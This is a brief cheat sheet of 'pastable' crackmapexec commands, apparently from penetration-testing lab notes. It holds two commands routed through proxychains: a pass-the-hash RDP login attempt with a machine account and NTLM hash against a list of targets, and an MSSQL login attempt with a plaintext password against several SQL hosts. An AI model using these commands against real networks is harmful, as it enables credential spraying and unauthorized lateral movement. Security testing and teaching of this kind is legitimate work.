# crackmapexec Pastable Commands

### RDP login attempt with hash&#x20;

* Have a target ip list in text file
* Username to try across a network&#x20;
* Password Hash

```
proxychains -f proxy9051.conf crackmapexec rdp target-list.txt -d RLAB -u 'SQL01$' -H 47b071asdfd0f06770137996c --no-bruteforce 
```

### Mssql login attempt with password

```
proxychains -f proxy9051.conf crackmapexec mssql sql-target-list.txt -d RLAB -u epugh_adm -p 'Password!' --no-bruteforce 
```
